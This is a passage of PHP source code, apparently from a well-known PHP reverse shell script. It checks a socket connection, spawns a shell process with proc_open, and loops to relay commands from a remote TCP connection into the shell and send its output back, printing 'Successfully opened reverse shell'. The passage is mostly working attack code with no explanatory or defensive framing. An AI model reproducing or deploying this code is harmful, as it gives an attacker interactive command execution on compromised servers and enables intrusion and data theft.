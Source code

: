 ```
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}
```